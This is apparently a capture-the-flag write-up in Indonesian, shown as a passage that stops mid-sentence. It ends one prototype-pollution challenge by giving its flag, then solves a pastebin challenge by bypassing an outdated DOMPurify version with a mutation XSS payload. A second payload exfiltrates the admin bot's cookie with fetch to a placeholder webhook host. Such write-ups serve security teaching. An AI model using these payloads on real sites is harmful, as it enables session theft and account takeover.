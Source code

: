 ![](https://i.imgur.com/ntmPuLn.png)

Flag: ARA2023{e4sy_Pro70typ3_p0llut1oN}

## Paste It
### Description
I made my own "Pastebin", its called "Paste It". It's 100% Free and 101% Secure. What you waiting for? share your paste to your friend right now!.

http://103.152.242.116:4512/ Attachments

### Technical Review
Pada challenge ini kita diberikan attachment dan juga url website, tetapi disini kita tidak perlu melihat source code untuk menyelesaikan challenge ini dikarenakan vulnerability dari challenge ini terdapat di DOMPurify yang berada di client side, DOMPurify ini vulnerable dengan CVE berikut https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/

### Solution
Pada halaman utama website halaman seperti berikut.

![](https://i.imgur.com/akt6Duk.png)

Saat kita memasukkan `<scirpt>alert(1)</script>` maka kita akan ter-redireksi ke halaman lain yang berisi input kita tersebut, tetapi disini input kita tidak berisi tag script.

![](https://i.imgur.com/uoF3mWz.png)

Saat kita melihat source code di developer console, kita akan melihat bahwa input kita akan di fetch dari `/api/paste/${id}` dan nantinya akan sanitaze menggunakan `DOMPurify`.

![](https://i.imgur.com/rxXXCp9.png)

Tapi disini yang menarik adalah versi dari DOMPurify yang lawas, yaitu versi 2.0.12 yang merupakan versi vulnerable dengan serangan Mutation XSS. Saya mengambil referensi dari website berikut https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/.

Kita langsung saja menginputkan payload berikut ke server untuk mentrigger XSS.

```html
<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
```

![](https://i.imgur.com/cya49ov.png)

Maka akan ke trigger XSS sebagai berikut.

![](https://i.imgur.com/grHldaR.png)

Karena flagnya terdapat di admin cookie, sekarang kita akan menyiapkan webhook untuk mencuri cookie dari admin bot.

```html 
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror="fetch('//weebhook?'+document.cookie)">
```
Setelah itu kita bisa mengirimkan link dari stored XSS yang kita buat tadi ke
